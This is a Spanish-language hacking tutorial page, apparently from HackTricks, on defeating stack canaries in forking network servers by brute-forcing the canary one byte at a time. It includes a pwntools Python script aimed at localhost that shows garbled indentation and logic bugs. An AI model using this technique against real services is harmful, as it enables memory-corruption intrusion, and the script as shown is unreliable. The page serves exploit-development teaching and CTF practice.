 # BF Forked & Threaded Stack Canaries

{{#include ../../../../banners/hacktricks-training.md}}

**Si te enfrentas a un binario protegido por un canario y PIE (Ejecutable Independiente de Posición), probablemente necesites encontrar una manera de eludirlos.**

![](<../../../../images/image (144).png>)

> [!NOTE]
> Ten en cuenta que **`checksec`** podría no encontrar que un binario está protegido por un canario si este fue compilado estáticamente y no es capaz de identificar la función.\
> Sin embargo, puedes notar esto manualmente si encuentras que un valor se guarda en la pila al comienzo de una llamada a función y este valor se verifica antes de salir.

## Fuerza bruta del Canario

La mejor manera de eludir un canario simple es si el binario es un programa **que crea procesos hijos cada vez que estableces una nueva conexión** con él (servicio de red), porque cada vez que te conectas a él **se usará el mismo canario**.

Entonces, la mejor manera de eludir el canario es simplemente **forzarlo de manera bruta carácter por carácter**, y puedes averiguar si el byte del canario adivinado fue correcto verificando si el programa se ha bloqueado o continúa su flujo regular. En este ejemplo, la función **fuerza bruta un canario de 8 Bytes (x64)** y distingue entre un byte adivinado correctamente y un byte incorrecto simplemente **verificando** si se envía una **respuesta** de vuelta por el servidor (otra forma en **otra situación** podría ser usando un **try/except**):

### Ejemplo 1

Este ejemplo está implementado para 64 bits, pero podría implementarse fácilmente para 32 bits.
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

canary_offset = 1176
```